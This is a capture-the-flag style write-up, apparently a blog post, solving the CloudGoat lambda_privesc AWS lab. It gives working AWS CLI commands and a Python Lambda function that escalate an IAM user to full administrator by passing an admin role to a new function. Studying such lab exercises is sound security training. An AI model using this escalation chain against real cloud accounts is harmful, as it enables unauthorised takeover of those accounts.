







+++
title = 'Hands on Cloud Pentesting: 5 - Cloudgoat lambda_privesc'
date = 2025-06-13T16:59:57+05:30
draft = false
series = "Hands on Cloud Pentesting"
tags = ["cloud","aws"]
+++

<!--more-->

## lambda_privesc (Easy)

[Scenario Page](https://github.com/RhinoSecurityLabs/cloudgoat/blob/master/cloudgoat/scenarios/aws/lambda_privesc/README.md)
### Description
Starting as the IAM user Chris, the attacker discovers that they can assume a role that has full Lambda access and pass role permissions. The attacker can then perform privilege escalation using these new permissions to obtain full admin privileges.

### Scenario Goal(s)
Acquire full admin privileges.

### Solution
Start the scenario using the following command
```bash
cloudgoat create lambda_privesc
```
We can setup the given access key and secret key for IAM user Chris as profile chris.


Our username is `chris-cgidqyneyhh86l`. Using the username we can enumerate the iam policies.

We can see that there is one attached policy called `cg-chris-policy-cgidqyneyhh86l`. We can try to read the policy document. For that, first we need to get the default version of the policy and then get that version.
```json
//aws iam get-policy --profile chris --policy-arn "arn:aws:iam::1234567890:policy/cg-chris-policy-cgidqyneyhh86l"
{
    "Policy": {
        "PolicyName": "cg-chris-policy-cgidqyneyhh86l",
        "PolicyId": "ANPASA4MJEJAEPBI34C2J",
        "Arn": "arn:aws:iam::1234567890:policy/cg-chris-policy-cgidqyneyhh86l",
        "Path": "/",
        "DefaultVersionId": "v1",
        "AttachmentCount": 1,
        "PermissionsBoundaryUsageCount": 0,
        "IsAttachable": true,
        "Description": "cg-chris-policy-cgidqyneyhh86l",
        "CreateDate": "2025-06-13T11:32:59Z",
        "UpdateDate": "2025-06-13T11:32:59Z",
        "Tags": [
            {
                "Key": "Name",
                "Value": "cg-chris-policy-cgidqyneyhh86l"
            },
            {
                "Key": "Scenario",
                "Value": "lambda-privesc"
            },
            {
                "Key": "Stack",
                "Value": "CloudGoat"
            }
        ]
    }
}
```
```json
//aws iam get-policy-version --profile chris --policy-arn "arn:aws:iam::1234567890:policy/cg-chris-policy-cgidqyneyhh86l" --version-id v1
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "sts:AssumeRole",
                        "iam:List*",
                        "iam:Get*"
                    ],
                    "Effect": "Allow",
                    "Resource": "*",
                    "Sid": "chris"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2025-06-13T11:32:59Z"
    }
}
```
Here, we can see that we have the `sts:AssumeRole` policy which can be used for [privilege escalation](https://cloud.hacktricks.wiki/en/pentesting-cloud/aws-security/aws-privilege-escalation/aws-sts-privesc.html#stsassumerole). Lets check out the roles that are available and the trust policy of the roles to see if our account is allowed to assume that role.
```json
//aws iam list-roles --profile chris
... // ignoring AWSSerive roles
{
    "Path": "/",
    "RoleName": "cg-debug-role-cgidqyneyhh86l",
    "RoleId": "AROASA4MJEJACOMSAOQO6",
    "Arn": "arn:aws:iam::1234567890:role/cg-debug-role-cgidqyneyhh86l",
    "CreateDate": "2025-06-13T11:32:58Z",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {
                    "Service": "lambda.amazonaws.com"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "Description": "CloudGoat debug role",
    "MaxSessionDuration": 3600
},
{
    "Path": "/",
    "RoleName": "cg-lambdaManager-role-cgidqyneyhh86l",
    "RoleId": "AROASA4MJEJAJH5B2ZB45",
    "Arn": "arn:aws:iam::1234567890:role/cg-lambdaManager-role-cgidqyneyhh86l",
    "CreateDate": "2025-06-13T11:33:10Z",
    "AssumeRolePolicyDocument": {
        "Version": "2012-10-17",
        "Statement": [
            {
                "Effect": "Allow",
                "Principal": {
                    "AWS": "arn:aws:iam::1234567890:user/chris-cgidqyneyhh86l"
                },
                "Action": "sts:AssumeRole"
            }
        ]
    },
    "Description": "CloudGoat Lambda manager role",
    "MaxSessionDuration": 3600
}
```
There are 2 roles available but only `cg-lambdaManager-role-cgidqyneyhh86l` has the policy which will allow the Principal - arn of chris user(our user) to allow to Assume the role. To assume the role we can use the following command.
```bash
aws sts assume-role --role-arn arn:aws:iam::1234567890:role/cg-lambdaManager-role-cgidqyneyhh86l --role-session-name lambdamanager --profile chris
```
This gives us AccessKeyId, SecretAccessKey and a temporary SessionToken. We can configure this as a new profile.

Now lets checkout the policies of the role we have gained access to.

```json
//aws iam get-policy-version --profile chris --policy-arn "arn:aws:iam::1234567890:policy/cg-lambdaManager-policy-cgidqyneyhh86l" --version-id v1
// v1 was the default policy version
{
    "PolicyVersion": {
        "Document": {
            "Statement": [
                {
                    "Action": [
                        "lambda:*",
                        "iam:PassRole"
                    ],
                    "Effect": "Allow",
                    "Resource": "*",
                    "Sid": "lambdaManager"
                }
            ],
            "Version": "2012-10-17"
        },
        "VersionId": "v1",
        "IsDefaultVersion": true,
        "CreateDate": "2025-06-13T11:32:59Z"
    }
}
```

Now we have 2 actions: [iam:PassRole](https://docs.aws.amazon.com/IAM/latest/UserGuide/id_roles_use_passrole.html) which allows us to pass a role to a service or resource like EC2 or lambda functions and [lambda:*](https://docs.aws.amazon.com/lambda/latest/api/API_Operations.html) which gives the role access to run any lambda operations.

If we look back to the `cg-debug-role-cgidqyneyhh86l` role which we had found earlier, we can notice that the Principal/who can assume this role is `lambda.amazonaws.com` meaning that lambda functions can assume this role. Lets see what the debug role policy is.

The attached policy, [AdministratorAccess](https://docs.aws.amazon.com/aws-managed-policy/latest/reference/AdministratorAccess.html) is an AWS managed policy which provides full access to services and resources which is our scenario goal.

All the permissions we have with the lambdaManager role satifies the conditions for the privilege escalation technique - [https://hackingthe.cloud/aws/exploitation/iam_privilege_escalation/#iampassrole-lambdacreatefunction-lambdainvokefunction](https://hackingthe.cloud/aws/exploitation/iam_privilege_escalation/#iampassrole-lambdacreatefunction-lambdainvokefunction). An exploit for the same is available [here](https://cloud.hacktricks.wiki/en/pentesting-cloud/aws-security/aws-privilege-escalation/aws-lambda-privesc.html#iampassrole-lambdacreatefunction-lambdainvokefunction--lambdainvokefunctionurl).

+ Create a lambda function which will make use of the `cg-debug-role-cgidqyneyhh86l`, giving it Administrator access.
+ The lambda function should grant Administrator Access to our user `chris-cgidqyneyhh86l`

1. First lets create the lambda function:
lambda.py
```py
import boto3
def lambda_handler(event, context):
    client = boto3.client('iam')
    response = client.attach_user_policy(
        UserName='chris-cgidqyneyhh86l',
        PolicyArn='arn:aws:iam::aws:policy/AdministratorAccess'
    )
    return response
```
```bash
zip lambda.zip lambda.py

aws lambda create-function --function-name my_function --runtime python3.9 --role arn:aws:iam::1234567890:role/cg-debug-role-cgidqyneyhh86l --handler lambda.lambda_handler --zip-file fileb://lambda.zip --region us-east-1 --profile lambdamanager
```
2. Invoke the lambda function. 
Now if we list the lambda functions, we should see our new function here.
```json
//aws lambda list-functions --profile lambdamanager --region us-east-1
{
    "Functions": [
        {
            "FunctionName": "my_function",
            "FunctionArn": "arn:aws:lambda:us-east-1:1234567890:function:my_function",
            "Runtime": "python3.9",
            "Role": "arn:aws:iam::1234567890:role/cg-debug-role-cgidqyneyhh86l",
            "Handler": "lambda.lambda_handler",
            "CodeSize": 346,
            "Description": "",
            "Timeout": 3,
            "MemorySize": 128,
            "LastModified": "2025-06-13T12:16:39.073+0000",
            "CodeSha256": "TSAB58nKz71171YEViboP6zPmtOBbXhhPnDtMf0faWQ=",
            "Version": "$LATEST",
            "TracingConfig": {
                "Mode": "PassThrough"
            },
            "RevisionId": "7b35371c-93f6-4252-bd12-188ff3dab9bf",
            "PackageType": "Zip",
            "Architectures": [
                "x86_64"
            ],
            "EphemeralStorage": {
                "Size": 512
            },
            "SnapStart": {
                "ApplyOn": "None",
                "OptimizationStatus": "Off"
            },
            "LoggingConfig": {
                "LogFormat": "Text",
                "LogGroup": "/aws/lambda/my_function"
            }
        }
    ]
}
```
Invoke the function using the command
```json
//aws lambda invoke --function-name my_function output.txt --region us-east-1 --profile lambdamanager
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
// cat output.txt
{"ResponseMetadata": {"RequestId": "0283589d-7c42-4769-9329-19bff0926e5f", "HTTPStatusCode": 200, "HTTPHeaders": {"date": "Fri, 13 Jun 2025 12:19:06 GMT", "x-amzn-requestid": "0283589d-7c42-4769-9329-19bff0926e5f", "content-type": "text/xml", "content-length": "212"}, "RetryAttempts": 0}}
```
We can see that the function executed succesfully

3. Check the attached policies of user chris
```bash
aws iam list-attached-user-policies --profile chris --user-name chris-cgidqyneyhh86l
```



We can see that the AdministratorAccess policy has been added and we have achieved the scenario goal!

Before stopping the scenario, don't forget to delete the lambda function we have created.
```bash
aws lambda delete-function --function-name my_function --region us-east-1 --profile lambdamanager
```
Check whether the function has been deleted.
```bash
aws lambda list-functions --profile chris --region us-east-1 # We can use chris profile as the user chris now has Administrator access :)
{
    "Functions": []
}
```
Stop the scenario using the following command
```bash
cloudgoat destroy lambda_privesc
```
